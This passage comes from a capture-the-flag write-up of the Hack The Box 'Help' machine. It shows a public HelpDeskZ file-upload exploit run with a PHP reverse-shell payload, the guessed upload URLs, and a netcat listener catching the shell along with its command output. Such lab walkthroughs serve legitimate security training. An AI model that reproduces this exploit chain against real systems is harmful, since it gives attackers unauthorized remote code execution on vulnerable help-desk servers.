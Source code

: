 Weird. But if I click the "Remember Me" button I am able to login fine.

### Exploitation


Looking for exploits I find: https://gist.github.com/z9fr/d2b0c8cea39096e19f336f5e29bbf803

Which exploits an arbitrary file upload vulnerability in HelpDeskZ.

We can launch the exploit with:

```
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ python helpdeskz_exploit.py http://help.htb/ php-reverse-shell.php
http://help.htb/support/uploads/tickets/c81018c329326d3ef571c2fb1eb3fd2d.php
http://help.htb/support/uploads/tickets/89199ee1bcd58aec9f187a930615a9b5.php
http://help.htb/support/uploads/tickets/e768b7a07979d4ca6bce99c59c44eb1a.php
http://help.htb/support/uploads/tickets/49d78d219f092fd13dc9328e2d57c414.php
<SNIP>
```

Once a file match is found we catch a shell back in our listener:

```
┌──(ryan㉿kali)-[~/HTB/Help]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.94] from (UNKNOWN) [10.129.156.213] 60292
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 07:54:02 up  1:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
help
$ hostname
help
```

We can now grab the user.txt flag:

![help_user_flag.png](../assets/help_assets/help_user_flag.png)
